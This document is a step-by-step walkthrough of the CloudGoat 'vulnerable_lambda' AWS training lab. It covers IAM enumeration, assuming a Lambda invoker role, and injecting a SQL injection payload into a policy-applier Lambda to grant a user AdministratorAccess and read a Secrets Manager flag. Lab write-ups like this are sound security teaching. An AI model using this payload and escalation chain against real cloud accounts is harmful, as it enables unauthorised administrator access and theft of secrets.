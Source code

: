 # Scenario: vulnerable_lambda

In this CloudGoat scenario, we explore a common vulnerability in AWS Lambda configurations. The goal is to escalate privileges from a limited user role and find a secret hidden in AWS Secrets Manager. By walking through this scenario, you will understand how misconfigurations in AWS can be exploited, and how a lack of proper input validation can lead to privilege escalation.

### Scenario Summary
- **Scenario Size:** Small
- **Difficulty:** Easy
- **Starting Point:** IAM User named "bilbo"
- **Goal:** Find the scenario's secret named **cg-secret-XXXXXX-XXXXXX**

In this walkthrough, you will:
1. Assume a role with more privileges.
2. Discover a Lambda function that applies policies to users.
3. Exploit a vulnerability in the function to escalate the privileges of the IAM user "bilbo."

### AWS Concepts to Know
Before diving in, let's briefly discuss some important AWS terms used in this scenario:
- **IAM User:** An IAM user is an identity that you create in AWS to interact with resources. The user "bilbo" is our starting point in this scenario, and has limited permissions.
- **IAM Role:** Roles provide temporary permissions to access AWS resources. In this scenario, "bilbo" will assume a more privileged IAM role.
- **AWS Lambda:** Lambda is a serverless compute service that runs code in response to events. We will identify a Lambda function that can be exploited to escalate privileges.
- **AWS Secrets Manager:** Secrets Manager helps store sensitive information, like API keys and passwords, securely. Our goal is to extract a secret stored here.

### Step-by-Step Walkthrough

#### Step 1: Configure AWS Profile for User "bilbo"
We start by configuring the AWS CLI to use credentials for the user "bilbo". This allows us to interact with AWS services using the permissions of this user.

```bash
~/cloudgoat$ aws configure --profile bilbo
AWS Access Key ID [None]: AK...
AWS Secret Access Key [None]: K...
Default region name [None]: us-east-1
Default output format [None]: json
```

#### Step 2: List IAM Users and Policies
We use the AWS CLI to list all users and check the current permissions of the user "bilbo".

```bash
~/cloudgoat$ aws --profile bilbo iam list-users
```
The output shows that "bilbo" is the only user available. Next, we list the policies attached to "bilbo".

```bash
~/cloudgoat$ aws --profile bilbo iam list-user-policies --user-name cg-bilbo-vulnerable_lambda_cgide7iyq5x9t1
```
We find that the user "bilbo" has a policy that allows assuming a specific role and also allows read-only access to IAM-related information.

#### Step 3: Identify the Lambda Invoker Role
We proceed to list IAM roles and discover a role named **cg-lambda-invoker-vulnerable_lambda**. This role can invoke Lambda functions.

```bash
~/cloudgoat$ aws --profile bilbo iam list-roles | grep cg-
```
We use this role to elevate our privileges.

#### Step 4: Assume the Lambda Invoker Role
To assume the role, we use the AWS Security Token Service (STS) to obtain temporary credentials for the role **cg-lambda-invoker-vulnerable_lambda**.

```bash
~/cloudgoat$ aws --profile bilbo sts assume-role --role-arn arn:aws:iam::997581282912:role/cg-lambda-invoker-vulnerable_lambda_cgide7iyq5x9t1 --role-session-name bilbo-assume-role
```
The output provides new credentials, which we add to our AWS credentials file for easier access.

```bash
[bilbo-lambda]
aws_access_key_id = AS...
aws_secret_access_key = so...
aws_session_token = aaaaa...
```

#### Step 5: Discover the Vulnerable Lambda Function
Using the new profile, we list the Lambda functions.

```bash
~/cloudgoat$ aws --profile bilbo-lambda --region us-east-1 lambda list-functions
```
We identify a function named **vulnerable_lambda_cgide7iyq5x9t1-policy_applier_lambda1**. This function applies policies to users, and it looks like we can exploit it to escalate our privileges.

#### Step 6: Analyze the Lambda Function
We retrieve the function's code to analyze how it works.

```bash
~/cloudgoat$ aws --profile bilbo-lambda --region us-east-1 lambda get-function --function-name vulnerable_lambda_cgide7iyq5x9t1-policy_applier_lambda1
```
This command will return detailed information about the Lambda function, including a link to download the deployment package. Download the package to view the source code. In the source code, you will see comments describing the database structure and how the function handles input parameters. The function is vulnerable to a SQL injection, as it does not properly validate user inputs.

#### Step 7: Craft and Inject the Payload
We craft a payload to escalate privileges by injecting an administrative policy. The payload is saved as **payload.json**.

```json
# payload.json
{
  "policy_names": ["AdministratorAccess' -- "],
  "user_name": "cg-bilbo-vulnerable_lambda_cgide7iyq5x9t1"
}
```
We then invoke the Lambda function with this payload to exploit the vulnerability.

```bash
~/cloudgoat$ aws --profile bilbo-lambda --region us-east-1 lambda invoke --function-name vulnerable_lambda_cgide7iyq5x9t1-policy_applier_lambda1 --cli-binary-format raw-in-base64-out --payload file://./payload.json out.txt
```
The response indicates that the policies were applied successfully. To confirm that everything worked correctly, we check the output:

```bash
~/cloudgoat$ cat out.txt
"All managed policies were applied as expected."
```

#### Step 8: List Secrets in Secrets Manager
Now that "bilbo" has administrative privileges, we can list the secrets stored in AWS Secrets Manager.

```bash
~/cloudgoat$ aws --profile bilbo --region us-east-1 secretsmanager list-secrets
```
We find a secret named **vulnerable_lambda_cgide7iyq5x9t1-final_flag**.

#### Step 9: Retrieve the Secret Value
Finally, we retrieve the value of the secret.

```bash
~/cloudgoat$ aws --profile bilbo --region us-east-1 secretsmanager get-secret-value --secret-id arn:aws:secretsmanager:us-east-1:997581282912:secret:vulnerable_lambda_cgide7iyq5x9t1-final_flag-nhbYXC
```
The output reveals the secret:

```
cg-secret-846237-284529
```

### Conclusion
In this scenario, we successfully escalated privileges from a limited IAM user to an administrator by exploiting a vulnerable Lambda function. This allowed us to access a secret in AWS Secrets Manager. The key lessons from this scenario include understanding IAM roles and policies, Lambda functions, and how improper input handling can lead to security vulnerabilities.

Always ensure proper input validation and least privilege policies to protect your cloud infrastructure from similar attacks.
